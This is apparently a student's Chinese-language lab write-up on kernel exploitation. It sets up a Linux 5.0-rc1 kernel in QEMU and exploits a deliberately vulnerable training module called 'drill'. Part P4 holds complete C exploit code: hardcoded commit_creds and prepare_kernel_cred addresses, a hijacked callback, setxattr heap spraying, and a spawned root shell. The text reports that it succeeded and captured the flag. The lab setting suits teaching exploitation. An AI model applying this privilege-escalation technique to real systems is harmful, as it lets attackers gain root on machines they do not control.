# P1

```bash
sudo apt-get update
sudo apt-get install qemu qemu-kv
sudo apt-get install build-essential flex bison bc libelf-dev libssl-dev
libncurses5-dev gcc-8
wget https://github.com/torvalds/linux/archive/v5.0-rc1.tar.gz
tar -xvf v5.0-rc1.tar.gz
```

使用上述命令配置环境 下载文件并解压



```bash
cd linux-v5.0-rc1
make x86_64_defconfig
make -j8 CC=gcc-8
```

使用上述命令开始编译

编译成功





# P2

执行命令：

```bash
qemu-system-x86_64 \
-kernel linux-5.0-rc1/arch/x86/boot/bzImage \
-append "console=ttyS0 root=/dev/sda debug earlyprintk=serialslub_debug=QUZ pti=off oops=panic ftrace_dump_on_oops nokaslr"\
-hda wheezy.img \
-net user,hostfwd=tcp::10021-:22 -net nic \
-nographic -m 512M -smp 2 \
-pidfile vm.pid 2>&1 | tee vm.log
```

结果：



然后使用脚本登陆

`sudo ./connectvm`



# P3

完善drill_operations.c如下

```c

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <fcntl.h>

int act(int fd, char code)
{
	ssize_t bytes = 0;

	bytes = write(fd, &code, 1);
	if (bytes <= 0) {
		perror("[-] write");
		return EXIT_FAILURE;
	}

	return EXIT_SUCCESS;
}

int main(void)
{
	int ret = EXIT_FAILURE;

	printf("begin as: uid=%d, euid=%d\n", getuid(), geteuid());
	
	char device[] = "/sys/kernel/debug/drill/drill_act";
	int fd_input = open(device, O_WRONLY);
	if(fd_input < 0)
    {
        printf("open source image failed! ret(%d)\n", fd_input);
        return -1;
    }


	// MDL: Use act function to implement the following commands
	// MDL: echo '1' > /sys/kernel/debug/drill/drill_act
	int ret1 = act(fd_input,'1');
	// MDL: echo '2' > /sys/kernel/debug/drill/drill_act
	int ret2 = act(fd_input,'2');
	// MDL: echo '3' > /sys/kernel/debug/drill/drill_act
	int ret3 = act(fd_input,'3');
	// MDL: echo '4' > /sys/kernel/debug/drill/drill_act
	int ret4 = act(fd_input,'4');

	return ret;
}

```

用命令`sudo ./scptovm drill_operations.c `把文件复制到虚拟机内





运行结果如下



# P4

去System.map找两个地址

commit_creds和





```c
/*
 * Student ID: XXX
 * Author: XXX
 */

#define _GNU_SOURCE

#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/syscall.h>
#include <stdbool.h>
#include <sys/wait.h>
#include <sys/mman.h>
#include <stdint.h>
#include <sys/xattr.h>

#define MMAP_SZ                 0x2000
#define PAYLOAD_SZ              3300    // MDL: copy DRILL_ITEM_SIZE from kernel module

/* ============================== Kernel stuff ============================== */

/* Addresses from System.map (no KASLR) */
#define COMMIT_CREDS_PTR        0xffffffff81084370      // MDL: fix this symbol
#define PREPARE_KERNEL_CRED_PTR 0xffffffff810845a0      // MDL: fix this symbol

typedef int __attribute__((regparm(3))) (*_commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (*_prepare_kernel_cred)(unsigned long cred);

_commit_creds commit_creds = (_commit_creds)COMMIT_CREDS_PTR;
_prepare_kernel_cred prepare_kernel_cred = (_prepare_kernel_cred)PREPARE_KERNEL_CRED_PTR;

void __attribute__((regparm(3))) root_it(unsigned long arg1, bool arg2)
{
        commit_creds(prepare_kernel_cred(0));
}

// MDL: copy the definition of drill_item_t here
struct drill_item_t {
        uint32_t foo;
        void (*callback)(void);
        char bar[1];
};


/* ========================================================================== */

void run_sh(void)
{
        pid_t pid = -1;
        char *args[] = {
                "/bin/sh",
                "-i",
                NULL
        };
        int status = 0;

        pid = fork();

        if (pid < 0) {
                perror("[-] fork()");
                return;
        }

        if (pid == 0) {
                execve("/bin/sh", args, NULL); /* Should not return */
                perror("[-] execve");
                exit(EXIT_FAILURE);
        }

        if (wait(&status) < 0)
                perror("[-] wait");
}

void init_payload(char *p, size_t size)
{
        struct drill_item_t *item = (struct drill_item_t *)p;

        memset(p, 0x41, size);

        item->callback = (uint64_t)root_it;

        printf("[+] payload:\n");
        printf("\tstart at %p\n", p);
        printf("\tcallback %lx\n", item->callback);
}

int act(int fd, char code)
{
        ssize_t bytes = 0;

        bytes = write(fd, &code, 1);
        if (bytes <= 0) {
                perror("[-] write");
                return EXIT_FAILURE;
        }

        return EXIT_SUCCESS;
}

int main(void)
{
        unsigned char *spray_data = NULL;
        int ret = EXIT_FAILURE;
        int fd = -1;

        printf("begin as: uid=%d, euid=%d\n", getuid(), geteuid());

        spray_data = mmap(NULL, MMAP_SZ, PROT_READ | PROT_WRITE,
                                        MAP_SHARED | MAP_ANONYMOUS, -1, 0);
        if (spray_data == MAP_FAILED) {
                perror("[-] mmap failed");
                goto end;
        }

        init_payload(spray_data, MMAP_SZ);
        fd = open("/sys/kernel/debug/drill/drill_act",O_WRONLY);
        act(fd,'1');
        act(fd,'2');
        act(fd,'3');
        // MDL: echo '1' > /sys/kernel/debug/drill/drill_act
        // MDL: echo '2' > /sys/kernel/debug/drill/drill_act
        // MDL: echo '3' > /sys/kernel/debug/drill/drill_act

        // MDL: why do we call setxattr with such spray_data and PAYLOAD_SZ?
        ret = setxattr("./", "foobar", spray_data, PAYLOAD_SZ, 0);
        printf("setxattr returned %d\n", ret);

        act(fd,'2');
        // MDL: echo '2' > /sys/kernel/debug/drill/drill_act

        if (getuid() == 0 && geteuid() == 0) {
                printf("[+] finish as: uid=0, euid=0, start sh...\n");
                run_sh();
                ret = EXIT_SUCCESS;
        } else {
                printf("[-] need heap spraying\n");
        }

        printf("[+] The End\n");

end:
        if (fd >= 0) {
                ret = close(fd);
                if (ret != 0)
                        perror("[-] close fd");
        }

        return ret;
}

```

复制过去过去 编译 运行





成功获得shell

拿到flag

